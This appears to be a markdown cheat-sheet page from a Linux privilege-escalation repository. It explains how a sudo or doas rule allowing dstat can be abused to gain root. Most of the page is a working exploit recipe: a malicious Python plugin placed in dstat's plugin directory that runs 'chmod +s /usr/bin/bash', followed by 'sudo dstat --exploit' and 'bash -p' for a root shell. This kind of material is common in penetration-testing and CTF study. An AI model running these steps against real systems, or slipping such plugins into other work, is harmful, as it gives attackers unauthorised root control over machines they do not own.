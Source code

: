 - Sudo dstat command might be vulnerable to privilege escalation (PrivEsc).
- **dstat** is a versatile tool for generating system resource statistics.
- It allows users to create a custom plugin and execute by adding option e.g. **`dstat --myplugin`**.

```bash
sudo -l

(ALL) NOPASSWD: /usr/bin/dstat

```

- If we can execute "**dstat**" command as root, we can gain access to privileges by using our malicious plugin.

1. we need to find **distat directory**

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(3).png)

2. in our case we have  **permission** in “**/usr/local/share/dstat**” 

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(4).png)

3. Create a plugin called **"dstat_exploit.py"** under **"/usr/local/share/dstat/"**

```python
import os

os.system('chmod +s /usr/bin/bash')
```

4. dstat recognizes plugins under **"/usr/local/share/dstat/"** Check if the above exploit plugin has been added by executing the following command.

```bash
dstat --list | grep exploit
```

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(5).png)

5. Now execute **"dstat"** with **“—exploit”** flag (the flag name is determined by the suffix of the file name e.g. **"dstat_<plugin-name>.py"**).

```bash
sudo /usr/bin/dstat --exploit

```

The exploit plugin executed so we enter bash as root.

```bash
bash -p
```

if you you come from doas then use 

```bash
doas -u root /usr/bin/dstat --exploit
```

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(6).png)
